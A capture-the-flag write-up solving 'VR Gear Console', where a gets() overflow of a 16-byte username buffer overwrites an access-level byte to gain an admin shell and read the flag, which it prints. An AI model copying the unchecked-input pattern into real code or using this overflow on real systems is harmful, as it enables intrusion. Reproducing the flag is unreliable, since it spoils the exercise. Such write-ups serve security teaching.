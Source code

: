 ### VR Gear Console - 90 points

> Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/1e50bd93be07ea1bca65a1a071e18eef

Hint:
> * What happens if you read in more characters than the length of the username buffer?
> * You should look at an ascii table to see what character you need to choose.
> * Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
> * "cat file - | vrgearconsole " will keep the pipe open for commands.

The hint tells us that we want to overflow the username.
Let's look at the code.
```c
int login() {
	int accessLevel = 0xff;
	char username[16];
	char password[32];
	printf("Username (max 15 characters): ");
	gets(username);
	printf("Password (max 31 characters): ");
	gets(password);
	...
	if (!strcmp(username, "admin") && !strcmp(password, "{{ create_long_password() }}")) {
		accessLevel = 2;                                                                           
	} else if (!strcmp(username, "root") && !strcmp(password, "{{ create_long_password() }}")) {
		accessLevel = 0;                                                                           
	} else if (!strcmp(username, "artist") && !strcmp(password, "my-password-is-secret")) {
		accessLevel = 0x80;
	}                                                                                               
	
	return accessLevel;
}
...
int main(int argc, char **argv) {
    ...
	int access = login();
    	printf("Your access level is: 0x%08x\n", access);
    	if (access >= 0xff || access <= 0) {
    		printf("Login unsuccessful.\n");
    		exit(10);
    	} else if (access < 0x30) {
		printf("Admin access granted!\n");
		printf("The flag is in \"flag.txt\".\n");
		system("/bin/sh");
	} else {
		printf("Login successful.\n");
		printf("You do not have permission to access this resource.\n");
		exit(1);
	}
}
```
By looking at the code we understand that we want our access to be lower than 0x30.
This access is calculated using login() which gets our input (without verifying the length) and does a few comparisons, therefore we can overflow it (just like the hint says).

Let's see how the the program responds to our inputs (username buffer can have 16 characters).
```
Username (max 15 characters):                                                                      
Password (max 31 characters):                                                                      
Your access level is: 0x000000ff                                                                   
Login unsuccessful.
```
Ok, let's try give it 17 characters to the username.
```
Username (max 15 characters): AAAAAAAAAAAAAAAAA
Password (max 31 characters):  
Your access level is: 0x00000041
Login successful.
You do not have permission to access this resource.
```
We're getting closer. It appears the last character is being written to the last byte of our access level. Let's confirm it!
```
Username (max 15 characters): AAAAAAAAAAAAAAAAB                                                    
Password (max 31 characters):                                                                      
Your access level is: 0x00000042                                                                   
Login successful.                                                                                  
You do not have permission to access this resource. 
```
Our assumption was correct (thank you little-endian). Now we just need it to be less than 30. Let's write an ascii character with a lower hex value ('/' with a value of 2F, for instance).
```
Username (max 15 characters): AAAAAAAAAAAAAAAA/                                                    
Password (max 31 characters):                                                                      
Your access level is: 0x0000002f                                                                   
Admin access granted!                                                                              
The flag is in "flag.txt".                                                                         
$
```
This gave us a shell. Now we can just read the flag.
```
$ ls                                                                                               
flag.txt  vrgearconsole  vrgearconsole.c                                                           
$ cat flag.txt                                                                                     
5a9aeea545615089851dd6a9b57a3139
```
Flag:
```
5a9aeea545615089851dd6a9b57a3139
```
